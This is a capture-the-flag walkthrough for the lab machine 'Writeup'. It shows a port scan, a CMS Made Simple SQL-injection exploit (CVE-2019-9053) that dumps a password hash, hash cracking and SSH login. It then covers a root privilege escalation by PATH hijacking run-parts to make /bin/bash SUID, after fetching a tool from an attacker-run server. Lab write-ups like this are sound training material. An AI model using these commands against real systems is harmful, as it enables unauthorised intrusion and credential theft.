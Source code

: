 ![Writeup.PNG](/assets/Machines/Easy/Writeup/Writeup.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.138
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.138
```

**Output**
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

3. Visit Web Page

![web.PNG](/assets/Machines/Easy/Writeup/web.PNG)

4. If you try to do `directory fuzzing` you can't. For this reason try to visit manually most common files or directories. 

* **If page take too long time to response close web browser and try again.**

  * **URL:** `http://10.10.10.138/robots.txt`

![robots.PNG](/assets/Machines/Easy/Writeup/robots.PNG)

5. Visit previous leak directory

![dir.PNG](/assets/Machines/Easy/Writeup/dir.PNG)

6. You can use `whatweb` or `Wappalyzer` to know more of the webpage.
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Writeup]
└─# whatweb http://10.10.10.138/writeup 
```
**Output**
```
http://10.10.10.138/writeup [301 Moved Permanently] Apache[2.4.25], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[10.10.10.138], RedirectLocation[http://10.10.10.138/writeup/], Title[301 Moved Permanently]
http://10.10.10.138/writeup/ [200 OK] Apache[2.4.25], CMS-Made-Simple, Cookies[CMSSESSID9d372ef93962], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], IP[10.10.10.138], MetaGenerator[CMS Made Simple - Copyright (C) 2004-2019. All rights reserved.], Title[Home - writeup]
```

* This web page is made with **CMD Made Simple**


6. If you search for any exploit for **CMD Made Simple** you find this [CVE-2019-9053](https://www.exploit-db.com/exploits/46635)

7. Execute exploit.
* If you have problems, delete modules with conflits and try to migrate all code to **python3**
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Writeup]
└─# python 46635.py -u http://10.10.10.138/writeup/
```
**Output**
```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

8. Crack hash with hashcat
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Writeup]
└─# hashcat -m 20 -a 0 hash /home/kali/Desktop/rockyou.txt
```
**Output**
```
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```

9. Try to login with this credentials in ssh
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Writeup]
└─# ssh jkr@10.10.10.138 
jkr@10.10.10.138's password:
```

10. Show user flag
```
jkr@writeup:~$ cat user.txt 
1bc81e142ecdee1c2866e1a2d39a10c2
```


---
---
### **Privileges Escalation** 💀
1. Download pspy in target machine

* Our Machine
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Writeup]
└─# ls
46635.py  hash  password.txt  ports  Ports  pspy64  versions

┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Writeup]
└─# python -m http.server 80
```


* Target Machine
```
jkr@writeup:/tmp/Scan$ wget 10.10.14.33/pspy64
```


2. Put execute permissions on pspy64 and run it.
3. When you login with ssh this process run

```
2023/02/04 17:53:58 CMD: UID=0    PID=2157   | run-parts --lsbsysinit /etc/update-motd.d
```

* We stay in `staff group`, is meaning, we can write into `/usr/local/bin`.
* The $PATH in target machine is `/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games`

4. We can do `Path Hijaking`.
```
jkr@writeup:/tmp/Scan$ echo "chmod u+s /bin/bash" > /usr/local/bin/run-parts && chmod +x /usr/local/bin/run-parts
```

5. Login in ssh in other terminal.

![other.PNG](/assets/Machines/Easy/Writeup/other.PNG)

6. `/bin/bash` already have a SUID permission.
```
jkr@writeup:/tmp/Scan$ ls -ls /bin/bash
1076 -rwsr-xr-x 1 root root 1099016 May 15  2017 /bin/bash
```

7. Spawn a bash how **root** and show **root flag**
```
jkr@writeup:/tmp/Scan$ bash -p
bash-4.4# whoami
root
```
```
bash-4.4# cat /root/root.txt 
58165f666f00c678e49e888d882f68c6
```